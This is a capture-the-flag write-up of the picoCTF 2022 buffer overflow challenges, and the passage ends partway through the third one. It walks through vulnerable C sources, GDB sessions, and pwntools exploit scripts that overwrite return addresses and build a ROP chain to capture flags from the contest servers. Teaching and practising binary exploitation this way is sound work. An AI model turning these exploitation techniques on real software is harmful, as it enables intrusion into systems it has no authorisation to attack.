


import Challenge from '@/components/mdx/Challenge.astro'
import InfoBox from '@/components/mdx/InfoBox.astro'

## Intro

This is a writeup for the buffer overflow series during the **picoCTF 2022** competition. This was arguably my favorite set of challenges, as beforehand I'd never stepped into the realm of binary exploitation/pwn. I learned a lot from this, so I highly recommend solving it by yourself before referencing this document. Cheers!

---

## Buffer overflow 0

<Challenge
  solvers={[
    {
      name: 'enscribe',
      href: 'https://github.com/jktrn',
      avatar: 'https://github.com/jktrn.png',
    },
  ]}
  authors={['Alex Fulton', 'Palash Oswal']}
  category="Binary Exploitation (pwn)"
  points={100}
  files={['vuln', 'vuln.c']}
>
  Smash the stack! Let's start off simple: can you overflow the correct buffer? Connect with it using: `$ nc saturn.picoctf.net [PORT]{:ansi}`
</Challenge>

```ansi
$ checksec vuln
[*] '/home/kali/ctfs/pico22/buffer-overflow-0/vuln'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Let's check out our source code:

```c title="vuln.c" caption="Inspecting provided source code" showLineNumbers
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
    printf("%s\n", flag);
    fflush(stdout);
    exit(1);
}

void vuln(char *input){
    char buf2[16];
    strcpy(buf2, input);
}

int main(int argc, char **argv){
    
    FILE *f = fopen("flag.txt","r");
    if (f == NULL) {
        printf("%s %s", "Please create 'flag.txt' in this directory with your",
                        "own debugging flag.\n");
        exit(0);
    }
    
    fgets(flag,FLAGSIZE_MAX,f);
    signal(SIGSEGV, sigsegv_handler); // Set up signal handler
    
    gid_t gid = getegid();
    setresgid(gid, gid, gid);


    printf("Input: ");
    fflush(stdout);
    char buf1[100];
    gets(buf1); 
    vuln(buf1);
    printf("The program will exit now\n");
    return 0;
}
```

The first thing we should do is check how the flag is printed. Looks like it's handled in a `sigsegv_handler(){:c}` function:

```c title="vuln.c" caption="Inspecting how the flag is printed" showLineNumbers{10}
void sigsegv_handler(int sig) {
    printf("%s\n", flag);
    fflush(stdout);
    exit(1);
}
```

Researching online, a "SIGSEGV" stands for a **segmentation fault**, which is an error raised by memory-protected hardware whenever it tries to access a memory address that is either restricted or does not exist. If the flag `printf(){:c}` resides within `sigsegv_handler(){:c}`, then we can safely assume that we must figure out how to trigger a segmentation fault.

We see that on line 40, the horrible `gets(){:c}` is called, and reads `buf1` (the user input) onto the stack. This function sucks, as it will write the user's input to the stack without regard to its allocated length. The user can simply overflow this length, and the program will pass their input into the `vuln(){:c}` function to trigger a segmentation fault:

```ansi highlight{3}
$ nc saturn.picoctf.net 65535
Input: aaaaaaaaaaaaaaaaaaaaaaaaaaa
picoCTF{ov3rfl0ws_ar3nt_that_bad_[REDACTED]}
```

---

## Buffer overflow 1

<Challenge
  solvers={[
    {
      name: 'enscribe',
      href: 'https://github.com/jktrn',
      avatar: 'https://github.com/jktrn.png',
    },
  ]}
  authors={['Sanjay C.', 'Lt. "Syreal" Jones']}
  category="Binary Exploitation (pwn)"
  points={300}
  files={['vuln', 'vuln.c']}
>
  Control the return address.  
  Now we're cooking! You can overflow the buffer and return to the flag function in the program. Connect with it using: `$ nc saturn.picoctf.net [PORT]{:ansi}`
</Challenge>

<InfoBox type="warning">
  Warning: This is an **instance-based** challenge. Port info will be redacted alongside the last eight characters of the flag, as they are dynamic.
</InfoBox>

```ansi
$ checksec vuln
[*] '/home/kali/ctfs/pico22/buffer-overflow-1/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

Let's check out our source code:

```c title="vuln.c" caption="Inspecting provided source code" showLineNumbers
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

In the `vuln(){:c}` function, we see that once again, the `gets(){:c}` function is being used. However, instead of triggering a segmentation fault like Buffer overflow 0, we will instead utilize its vulnerability to write our own addresses onto the stack, changing the return address to `win(){:c}` instead.

### I: Explaining the Stack

Before we get into the code, we need to figure out how to write our own addresses to the stack. Let's start with a visual:



Whenever we call a function, multiple items will be "pushed" onto the **top** of the stack (in the diagram, that will be on the right-most side). It will include any parameters, a return address back to `main(){:c}`, a base pointer, and a buffer. Note that the stack grows **downwards**, towards lower memory addresses, but the buffer is written **upwards**, towards higher memory addresses.

We can "smash the stack" by exploiting the `gets(){:c}` function. If we pass in a large enough input, it will overwrite the entire buffer and start overflowing into the base pointer and return address within the stack:


If we are deliberate of the characters we pass into `gets(){:c}`, we will be able to insert a new address to overwrite the return address to `win(){:c}`. Let's try!

### II: Smashing the Stack

To start, we first need to figure out our "offset". The offset is the distance, in characters, between the beginning of the buffer and the position of the `$eip{:ansi}`. This can be visualized with the `gdb-gef` utility by setting a breakpoint (a place to pause the runtime) in the `main(){:c}` function:

```ansi /0x80492d7/
gef➤  b main
Breakpoint 1 at 0x80492d7
gef➤  r
Starting program: /home/kali/ctfs/pico22/buffer-overflow-1/vuln
Breakpoint 1, 0x080492d7 in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────── registers ────
$eax   : 0xf7fa39e8  →  0xffffd20c  →  0xffffd3d1  →  "SHELL=/usr/bin/bash"
$ebx   : 0x0
$ecx   : 0xffffd160  →  0x00000001
$edx   : 0xffffd194  →  0x00000000
$esp   : 0xffffd140  →  0xffffd160  →  0x00000001
$ebp   : 0xffffd148  →  0x00000000
$esi   : 0x1
$edi   : 0x80490e0  →  <_start+0> endbr32 
$eip   : 0x80492d7  →  <main+19> sub esp, 0x10
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63
────────────────────────────────────────────────────────────────── code:x86:32 ────
    0x80492d3 <main+15>        mov    ebp, esp
    0x80492d5 <main+17>        push   ebx
    0x80492d6 <main+18>        push   ecx
 →  0x80492d7 <main+19>        sub    esp, 0x10
    0x80492da <main+22>        call   0x8049130 <__x86.get_pc_thunk.bx>
    0x80492df <main+27>        add    ebx, 0x2d21
    0x80492e5 <main+33>        mov    eax, DWORD PTR [ebx-0x4]
    0x80492eb <main+39>        mov    eax, DWORD PTR [eax]
    0x80492ed <main+41>        push   0x0
────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x80492d7 in main (), reason: BREAKPOINT
```

Analyzing this breakpoint, if we look at the arrow on the assembly code, we can see that its address is the exact same as the `$eip{:ansi}` (`0x80492d7{:ansi}`). Let's try overflowing this register by passing an unhealthy amount of `A`s into the program:

```ansi /0x41414141/
gef➤  r
Starting program: /home/kali/ctfs/pico22/buffer-overflow-1/vuln
Please enter your string:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Okay, time to return... Fingers Crossed... Jumping to 0x41414141

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x41
$ebx   : 0x41414141 ("AAAA"?)
$ecx   : 0x41
$edx   : 0xffffffff
$esp   : 0xffffd130  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
$ebp   : 0x41414141 ("AAAA"?)
$esi   : 0x1
$edi   : 0x80490e0  →  <_start+0> endbr32 
$eip   : 0x41414141 ("AAAA"?)
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63
────────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x41414141
────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x41414141 in ?? (), reason: SIGSEGV
```

Look what happened: our program threw a SIGSEGV (segmentation) fault, as it is trying to reference the address `0x41414141{:ansi}`, which doesn't exist! This is because our `$eip{:ansi}` was overwritten by all our `A`s (`0x41` in hex = `A` in ASCII).

### III: Finessing the Stack

Although we've managed to smash the stack, we still don't know the offset (**how many** `A`s we need to pass in order to reach the `$eip`). To solve this problem, we can use the pwntools `cyclic` command, which creates a string with a recognizable cycling pattern for it to identify:

```ansi highlight{21}
gef➤ shell cyclic 48
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaa
gef➤ r
Starting program: /home/kali/ctfs/pico22/buffer-overflow-1/vuln
Please enter your string:
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaa
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c

Program received signal SIGSEGV, Segmentation fault.
0x6161616c in ?? ()
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$eax   : 0x41
$ebx   : 0x6161616a ("jaaa")
$ecx   : 0x41
$edx   : 0xffffffff
$esp   : 0xffffd130  →  0x00000000
$ebp   : 0x6161616b ("kaaa")
$esi   : 0x1
$edi   : 0x80490e0  →  <_start+0> endbr32 
$eip   : 0x6161616c ("laaa")
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63
─────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x6161616c
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x6161616c in ?? (), reason: SIGSEGV
```

We can see that `$eip{:ansi}` is currently overflowed with the pattern `0x6161616c{:ansi}` (`"laaa"{:ansi}`). let's search for this pattern using `pattern search`:

```ansi
gef➤ pattern search 0x6161616c
[+] Searching for '0x6161616c'
[+] Found at offset 44 (little-endian search) likely
[+] Found at offset 41 (big-endian search)
```

To figure out which offset we need to use, we can use `readelf` to analyze header of the `vuln` executable:

```ansi
$ readelf -h vuln | grep endian
  Data: 2's complement, little endian
```

Our binary is in little endian, we know that 44 `A`s are needed in order to reach the `$eip{:ansi}`. The only thing we need now before we create our exploit is the address of the `win(){:c}` function, which will be appended to the end of our buffer to overwrite the `$eip{:ansi}` on the stack:

```ansi
gef➤ x win
0x80491f6 <win>: 0xfb1e0ff3
```

Win is at `0x80491f6{:ansi}`, but we need to convert it to the little endian format. You can do this with the pwntools `p32(){:c}` command, which results in `\xf6\x91\x04\x08{:ansi}`.
Let's make a final visual of our payload:


Let's write our payload and send it to the remote server with Python3/pwntools:

```py title="solve.py" caption="Solve script" showLineNumbers
#!/usr/bin/env python3
from pwn import *

payload = b"A"*44 + p32(0x80491f6)  # Little endian: b'\xf6\x91\x04\x08'
host, port = "saturn.picoctf.net", [PORT]

p = remote(host, port)      # Opens the connection
log.info(p.recvS())         # Decodes/prints "Please enter your string:"
p.sendline(payload)         # Sends the payload
log.success(p.recvallS())   # Decodes/prints all program outputs
p.close()                   # Closes the connection
```

Let's try running the script on the server:

```ansi highlight{7}
$ python3 buffer-overflow-1.py
[+] Opening connection to saturn.picoctf.net on port [PORT]: Done
[*] Please enter your string: 
[+] Receiving all data: Done (100B)
[*] Closed connection to saturn.picoctf.net port [PORT]
[+] Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
    picoCTF{addr3ss3s_ar3_3asy_[REDACTED]}
```

We have completed our first `ret2win` buffer overflow on a x32 binary! Yet, this is just the beginning. How about we spice things up a little bit?

### IV: Automating the Stack

Although the concept of buffer overflows can seem daunting to newcomers, experienced pwners will often find these sorts of challenges trivial, and don't want to spend the effort manually finding offsets and addresses just to send the same type of payload. This is where our best friend comes in: **pwntools** helper functions and automation! Let's start with the first part - the `$eip{:ansi}` offset for x32 binaries.

The main helper we will be using is [`pwnlib.elf.corefile`](https://docs.pwntools.com/en/stable/elf/corefile). It can parse [core dump](https://www.ibm.com/docs/en/aix/7.1?topic=formats-core-file-format) files, which are generated by Linux whenever errors occur during a running process. These files take an **image** of the process when the error occurs, which may assist the user in the debugging process. Remember when we sent a large `cyclic` pattern which was used to cause a segmentation fault? We'll be using the core dump to view the state of the registers during that period, without needing to step through it using GDB. We'll be using the coredump to eventually find the offset!

<InfoBox type="info">
  Many Linux systems do not have core dumps properly configured. For bash, run `ulimit -c unlimited` to generate core dumps of unlimited size. For tsch, run `limit coredumpsize unlimited`. By default, cores are dumped into either the current directory or `/var/lib/systemd/coredump`.
</InfoBox>

Before we start, let's work through the steps with command-line Python. First, let's import the pwntools global namespace and generate an `elf` object using pwntool's `ELF(){:py}`:

```ansi
$ python3 -q
>>> from pwn import *
>>> elf = context.binary = ELF('./vuln')
[*] '/home/kali/ctfs/pico22/buffer-overflow-1/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

We can then generate a `cyclic(){:py}` payload and start a local process referencing the aforementioned `elf` object. Sending the payload and using the [`.wait(){:py}`](https://www.educba.com/python-wait/) method will throw an exit code -11, which signals a segmentation fault and generates a core dump.

```ansi highlight{12}
>>> p = process(elf.path)
[x] Starting local process '/home/kali/ctfs/pico22/buffer-overflow-1/vuln'
[+] Starting local process '/home/kali/ctfs/pico22/buffer-overflow-1/vuln': pid 2219
>>> p.sendline(cyclic(128))
>>> p.wait()
[*] Process '/home/kali/ctfs/pico22/buffer-overflow-1/vuln' stopped with exit code -11 (SIGSEGV) (pid 2219)
>>> exit()
$ ls -al
total 2304
drwxr-xr-x  3 kali kali    4096 Jun 16 15:35 .
drwxr-xr-x 16 kali kali    4096 Jun 14 17:13 ..
-rw-------  1 kali kali 2588672 Jun 16 15:35 core
-rw-r--r--  1 kali kali     358 Jun 16 03:22 buffer-overflow-1.py
-rwxr-xr-x  1 kali kali   15704 Mar 15 02:45 vuln
-rw-r--r--  1 kali kali     769 Mar 15 02:45 vuln.c
```

We can now create a corefile object and freely reference registers! To find the offset, we can simply call the object key within `cyclic_find(){:py}`.

```ansi /eip/
>>> core = Corefile('./core')
[x] Parsing corefile...
[*] '/home/kali/ctfs/pico22/buffer-overflow-1/core'
    Arch:      i386-32-little
    EIP:       0x6161616c
    ESP:       0xff93abe0
    Exe:       '/home/kali/ctfs/pico22/buffer-overflow-1/vuln' (0x8048000)
    Fault:     0x6161616c
[+] Parsing corefile...: Done
>>> core.registers
{'eax': 65, 'ebp': 1633771883, 'ebx': 1633771882, 'ecx': 65, 'edi': 134516960, 'edx': 4294967295, 'eflags': 66178, 'eip': 1633771884, 'esi': 1, 'esp': 4287867872, 'orig_eax': 4294967295, 'xcs': 35, 'xds': 43, 'xes': 43, 'xfs': 0, 'xgs': 99, 'xss': 43}
>>> hex(core.eip)
'0x6161616c'
```

Now that we know how ELF objects and core dumps work, let's apply them to our previous script. Another cool helper I would like to implement is [`flat(){:py}`](https://docs.pwntools.com/en/stable/util/packing.html) (which has a great tutorial [here](https://www.youtube.com/watch?v=AMDbbuLaXfk), referred to by the legacy alias `fit(){:py}`), which flattens arguments given in lists, tuples, or dictionaries into a string with `pack(){:py}`. This will help us assemble our payload without needing to concatenate seemingly random strings of `A`s and little-endian addresses, increasing readability.

This is my final, completely automated script:

```py title="solve.py" caption="Solve script" showLineNumbers
#!/usr/bin/env python3
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)    # sets elf object
host, port = 'saturn.picoctf.net', [PORT]

p = process(elf.path)        # references elf object
p.sendline(cyclic(128))      # sends cyclic pattern to crash
p.wait()                     # sigsegv generates core dump
core = Coredump('./core')    # parse core dump file

payload = flat({
    cyclic_find(core.eip): elf.symbols.win    # offset:address
})

if args.REMOTE:    # remote process if arg
    p = remote(host, port)
else:
    p = process(elf.path)

p.sendline(payload)
p.interactive()    # receives flag
```

Let's run the script on the server:

```ansi highlight{15}
$ python3 buffer-overflow-1-automated.py REMOTE
[+] Starting local process '/home/kali/ctfs/pico22/buffer-overflow-1/vuln': pid 2601
[*] Process '/home/kali/ctfs/pico22/buffer-overflow-1/vuln' stopped with exit code -11 (SIGSEGV) (pid 2601)
[+] Parsing corefile...: Done
[*] '/home/kali/ctfs/pico22/buffer-overflow-1/core'
    Arch:      i386-32-little
    EIP:       0x6161616c
    ESP:       0xff829260
    Exe:       '/home/kali/ctfs/pico22/buffer-overflow-1/vuln' (0x8048000)
    Fault:     0x6161616c
[+] Opening connection to saturn.picoctf.net on port [PORT]: Done
[*] Switching to interactive mode
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_[REDACTED]}
[*] Got EOF while reading in interactive
```

We've successfully automated a solve on a simple x32 buffer overflow!

---

## Buffer overflow 2

<Challenge
  solvers={[
    {
      name: 'jktrn',
      href: 'https://github.com/jktrn',
      avatar: 'https://github.com/jktrn.png',
    },
  ]}
  authors={['Sanjay C.', 'Palash Oswal']}
  category="Binary Exploitation (pwn)"
  points={300}
  files={['vuln', 'vuln.c']}
>
  Control the return address and arguments.  
  This time you'll need to control the arguments to the function you return to! Can you get the flag from this program? Connect with it using: `$ nc saturn.picoctf.net [PORT]{:ansi}`
</Challenge>

<InfoBox type="warning">
  Warning: This is an **instance-based** challenge. Port info will be redacted alongside the last eight characters of the flag, as they are dynamic.
</InfoBox>

```ansi
$ checksec vuln
[*] '/home/kali/ctfs/pico22/buffer-overflow-2/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Let's check out our source code:

```c title="vuln.c" caption="Inspecting source code" showLineNumbers
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
    char buf[FLAGSIZE];
    FILE *f = fopen("flag.txt","r");
    if (f == NULL) {
        printf("%s %s", "Please create 'flag.txt' in this directory with your",
                        "own debugging flag.\n");
        exit(0);
    }

    fgets(buf,FLAGSIZE,f);
    if (arg1 != 0xCAFEF00D)
        return;
    if (arg2 != 0xF00DF00D)
        return;
    printf(buf);
}

void vuln(){
    char buf[BUFSIZE];
    gets(buf);
    puts(buf);
}

int main(int argc, char **argv){

    setvbuf(stdout, NULL, _IONBF, 0);
    
    gid_t gid = getegid();
    setresgid(gid, gid, gid);

    puts("Please enter your string: ");
    vuln();
    return 0;
}
```

Looking at the `win(){:c}` function, we can see that two arguments are required that need to be passed into the function to receive the flag. Two guard clauses lay above the flag print:

```c title="vuln.c" caption="Inspecting source code" showLineNumbers{10} highlight{19-24}
void win(unsigned int arg1, unsigned int arg2) {
    char buf[FLAGSIZE];
    FILE *f = fopen("flag.txt","r");
    if (f == NULL) {
        printf("%s %s", "Please create 'flag.txt' in this directory with your",
                        "own debugging flag.\n");
        exit(0);
    }

    fgets(buf,FLAGSIZE,f);
    if (arg1 != 0xCAFEF00D)
        return;
    if (arg2 != 0xF00DF00D)
        return;
    printf(buf);
}
```

The goal is simple: call `win(0xCAFEF00D, 0xF00DF00D){:c}`! We'll be doing it the hard way (for a learning experience), in addition to a more advanced easy way. Let's get started.

### I: The Hard Way

We can apply a lot from what we learned in Buffer overflow 1. The first thing we should do is find the offset, which requires no hassle with pwntools helpers! Although we'll get actual number here, I won't include it in the final script for the sake of not leaving out any steps. Simply segfault the process with a cyclic string, read the core dump's fault address (`$eip{:ansi}`) and throw it into `cyclic_find(){:py}`:

```ansi highlight{26}
$ python3 -q
>>> from pwn import *
>>> elf = context.binary = ELF('./vuln')
[*] '/home/kali/ctfs/pico22/buffer-overflow-2/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
>>> p = process(elf.path)
[x] Starting local process '/home/kali/ctfs/pico22/buffer-overflow-2/vuln'
[+] Starting local process '/home/kali/ctfs/pico22/buffer-overflow-2/vuln': pid 2777
>>> p.sendline(cyclic(128))
>>> p.wait()
[*] Process '/home/kali/ctfs/pico22/buffer-overflow-2/vuln' stopped with exit code -11 (SIGSEGV) (pid 2777)
>>> core = Corefile('./core')
[x] Parsing corefile...
[*] '/home/kali/ctfs/pico22/buffer-overflow-2/core'
    Arch:      i386-32-little
    EIP:       0x62616164
    ESP:       0xffafca40
    Exe:       '/home/kali/ctfs/pico22/buffer-overflow-2/vuln' (0x8048000)
    Fault:     0x62616164
[+] Parsing corefile...: Done
>>> cyclic_find(0x62616164)
112
```

The next thing we need to know about is the way functions are laid out on the stack. Let's recall the diagram I drew out earlier:


If we want to call a function with parameters, we'll need to include the base pointer alongside a return address, which can simply be `main(){:c}`. With this, we can basically copy our script over from Buffer overflow 1 with a few tweaks to the payload:

```py title="solve.py" caption="Solve script" showLineNumbers
#!/usr/bin/env python3
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)    # sets elf object
host, port = 'saturn.picoctf.net', [PORT]

p = process(elf.path)        # creates local process w/ elf object
p.sendline(cyclic(128))      # sends cyclic pattern to crash
p.wait()                     # sigsegv generates core dump
core = Coredump('./core')    # parses core dump file

payload = flat([
    {cyclic_find(core.eip): elf.symbols.win},    # pads win address
    elf.symbols.main,                            # return address
    0xCAFEF00D,                                  # parameter 1
    0xF00DF00D                                   # parameter 2
])

if args.REMOTE:
    p = remote(host, port)
else:
    p = process(elf.path)

p.sendline(payload)
p.interactive()
```

Let's run it on the remote server:

```ansi highlight{15}
$ python3 buffer-overflow-2.py REMOTE
[+] Starting local process '/home/kali/ctfs/pico22/buffer-overflow-2/vuln': pid 3988
[*] Process '/home/kali/ctfs/pico22/buffer-overflow-2/vuln' stopped with exit code -11 (SIGSEGV) (pid 3988)
[+] Parsing corefile...: Done
[*] '/home/kali/ctfs/pico22/buffer-overflow-2/core'
    Arch:      i386-32-little
    EIP:       0x62616164
    ESP:       0xffca3290
    Exe:       '/home/kali/ctfs/pico22/buffer-overflow-2/vuln' (0x8048000)
    Fault:     0x62616164
[+] Opening connection to saturn.picoctf.net on port [PORT]: Done
[*] Switching to interactive mode
Please enter your string: 
\\xf0\\xfe\\xcadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaaavaaawaaaxaaayaaazaabbaabcaab\\x96\\x92\\x04r\\x93\\x04
picoCTF{argum3nt5_4_d4yZ_[REDACTED]}
```

### II: The Easy Way

But... what if you wanted to be an even **more** lazy pwner? Well, you're in luck, because I present to you: the **[pwntools ROP object](https://docs.pwntools.com/en/stable/rop/rop.html)**! By throwing our elf object into `ROP(){:py}` it transforms, and we can use it to automatically call functions and build chains! Here it is in action:

```py title="solve.py" caption="Solve script (automated)" showLineNumbers
#!/usr/bin/env python3
from pwn import *

elf = context.binary = ELF('./vuln' checksec=False)    # sets elf object
rop = ROP(elf)                                         # creates ROP object
host, port = 'saturn.picoctf.net', [PORT]

p = process(elf.path)        # creates local process w/ elf object
p.sendline(cyclic(128))      # sends cyclic pattern to crash
p.wait()                     # sigsegv generates core dump
core = Coredump('./core')    # parses core dump file

rop.win(0xCAFEF00D, 0xF00DF00D)                        # Call win() with args
payload = fit({cyclic_find(core.eip): rop.chain()})    # pad ROP chain

if args.REMOTE:
    p = remote(host, port)
else:
    p = process(elf.path)

p.sendline(payload)
p.interactive()
```

Let's run it on the remote server:

```ansi highlight{16}
$ python3 buffer-overflow-2-automated.py REMOTE
[*] Loaded 10 cached gadgets for './vuln'
[+] Starting local process '/home/kali/ctfs/pico22/buffer-overflow-2/vuln': pid 4993
[*] Process '/home/kali/ctfs/pico22/buffer-overflow-2/vuln' stopped with exit code -11 (SIGSEGV) (pid 4993)
[+] Parsing corefile...: Done
[*] '/home/kali/ctfs/pico22/buffer-overflow-2/core'
    Arch:      i386-32-little
    EIP:       0x62616164
    ESP:       0xffd07fc0
    Exe:       '/home/kali/ctfs/pico22/buffer-overflow-2/vuln' (0x8048000)
    Fault:     0x62616164
[+] Opening connection to saturn.picoctf.net on port [PORT]: Done
[*] Switching to interactive mode
Please enter your string: 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaab\\x96\\x\\xf0\\xfe\\xca
picoCTF{argum3nt5_4_d4yZ_[REDACTED]}
$ [*] Got EOF while reading in interactive
```

We've successfully called a function with arguments through buffer overflow!

---

## Buffer overflow 3

<Challenge
  solvers={[
    {
      name: 'jktrn',
      href: 'https://github.com/jktrn',
      avatar: 'https://github.com/jktrn.png',
    },
  ]}
  authors={['Sanjay C.', 'Palash Oswal']}
  category="Binary Exploitation (pwn)"
  points={300}
  files={['vuln', 'vuln.c']}
>
  Do you think you can bypass the protection and get the flag? It looks like Dr. Oswal added a stack canary to this program to protect against buffer overflows. Connect with it using: `$ nc saturn.picoctf.net [PORT]{:ansi}`
</Challenge>

<InfoBox type="warning">
  Warning: This is an **instance-based** challenge. Port info will be redacted alongside the last eight characters of the flag, as they are dynamic.
</InfoBox>

```ansi highlight{5}
$ checksec vuln
[*] '/home/kali/ctfs/pico22/buffer-overflow-3/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

### I: Finding the Canary

So, Dr. Oswal apparently implemented a [stack canary](https://www.sans.org/blog/stack-canaries-gingerly-sidestepping-the-cage/), which is just a **dynamic value** appended to binaries during compilation. It helps detect and mitigate stack smashing attacks, and programs can terminate if they detect the canary being overwritten. Yet, `checksec` didn't find a canary. That's a bit suspicious... but let's check out our source code first:

```c title="vuln.c" caption="Inspecting source code" showLineNumbers
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64
#define CANARY_SIZE 4

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    fflush(stdout);
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); // size bound read
  puts(buf);
  fflush(stdout);
}

char global_canary[CANARY_SIZE];
void read_canary() {
  FILE *f = fopen("canary.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'canary.txt' in this directory with your",
                    "own debugging canary.\n");
    fflush(stdout);
    exit(0);
  }

  fread(global_canary,sizeof(char),CANARY_SIZE,f);
  fclose(f);
}

void vuln(){
   char canary[CANARY_SIZE];
   char buf[BUFSIZE];
   char length[BUFSIZE];
   int count;
   int x = 0;
   memcpy(canary,global_canary,CANARY_SIZE);
   printf("How Many Bytes will You Write Into the Buffer?\n> ");
   while (x<BUFSIZE) {
      read(0,length+x,1);
      if (length[x]=='\n') break;
      x++;
   }
   sscanf(length,"%d",&count);

   printf("Input> ");
   read(0,buf,count);

   if (memcmp(canary,global_canary,CANARY_SIZE)) {
      printf("***** Stack Smashing Detected ***** : Canary Value Corrupt!\n"); // crash immediately
      fflush(stdout);
      exit(-1);
   }
